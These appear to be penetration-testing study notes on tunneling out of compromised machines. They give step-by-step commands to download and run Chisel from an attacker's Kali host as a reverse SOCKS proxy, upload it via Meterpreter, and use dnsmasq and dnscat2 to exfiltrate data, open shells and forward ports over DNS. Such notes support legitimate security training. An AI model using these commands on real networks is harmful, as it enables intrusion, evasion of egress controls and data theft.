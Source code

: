 ```yaml
---
layout: blank
---
```


### HTTP Tunneling Theory/Practice

**HTTP Tunneling Fundamentals**
- Useful when all you have is egress HTTP traffic and no useful inbound ports
- We basically set up a server on kali and use egress traffic from the pwned machine to create an HTTP tunnel allowing inbound commands
- *Chisel* is a good tool for encapsulating data within HTTP
	- Run a server on Kali, client on pwned machine with internal access
		- On Kali: `sudo apt install chisel`, then copy `/usr/bin/chisel` into `/var/www/html` and start apache to make the file available (or just use python???)
		- Can view all traffic to this port with `sudo tcpdump -nvvvXi tun0 tcp port {port}`
	- `chisel server --port {port} --reverse` on kali to run the server
	- `wget {kali_ip}/chisel -O /tmp/chisel && chmod +x /tmp/chisel` for running the Chisel client on the linux target
		- `chisel client {kali_IP}:{kali_port} R:socks > /dev/null 2>&1 &`
	- Then, pass commands with `ssh -o Proxycommand='ncat --proxy-type socks5 --proxy 127.0.0.1:{port_given_by_chisel_(1080)} %h %p' {user}@{internal_IP_1hop}`
		- Need to install `ncat` on kali first
	- Can also be used on Windows
		- From meterpreter, `upload chisel.exe C:\\Users\\{user}\\chisel.exe`
- Can be combined with proxychains
	- Put the socks5 proxy port (from Chisel) in proxychains

### DNS Tunneling Theory/Practice

**DNS Tunneling Fundamentals**
- Register a name server that can communicate with all other nameservers
- Run `sudo dnsmasq -C dnsmasq.conf -d` on the pwned machine that other pwned machines refer to for dns info
	-  `dnsmasq.conf` needs to have `no-resolv`, `no-hosts`, `auth-zone=feline.corp`, and `auth-server=feline.corp` all on newlines
	- -C uses a config file, and -d means no-daemon mode so we can kill it
- On pwned machine, check DNS resolution with `resolvectl status`
	- Can then run something like `nslookup -type=txt www.feline.corp`, as the 2nd pwned machine will look to the 1st for name records and return exfiltrated data
- To view exfiltrated data on DNS server:
	- `sudo tcpdump -i {network interface (like ens192)} udp port 53`
	- `nslookup garbage.{owned_domain}` on pwned machine to test
- Since everything needs to look up domains, it doesn't matter how deep the pwned machine is in the internal network
- Getting data back into the network:
	- Add TXT records to `dnsmasq.conf` with:
		- `txt-record=www.{domain}, {arbitrary data here}`
		- Then restart the server (`sudo dnsmasq.conf -C dnsmasq.conf -d`)

**DNS Tunneling with dnscat2**
- `dnscat2` runs on an authoritative name server for a domain on a pwned nameserver, queried by pwned machines
- `dnscat2-server {domain}` to run, making it listen on all interfaces on udp port 53
	- Similar to above, the domain needs to be specified in `~/dns_tunneling/dnsmasq.conf`
- Then, on client, simply run `dnscat {domain}` to get a shell
- Tunneling:
	- Run `window -i 1` to be able to run commands in the window
	- Once we have a shell, we can use the `listen` command to do a local port forward
	- `listen 127.0.0.1:{inbound_port} {internal_IP}:{desired_port}` 
		- This listens on `inbound_port` on the loopback interface (e.g. only localhost)
		- If we want to listen everywhere, just use `0.0.0.0`
	- Then, use it by simply accessing the inbound port on kali localhost
		- Example: `nmap -p {inbound_port} localhost`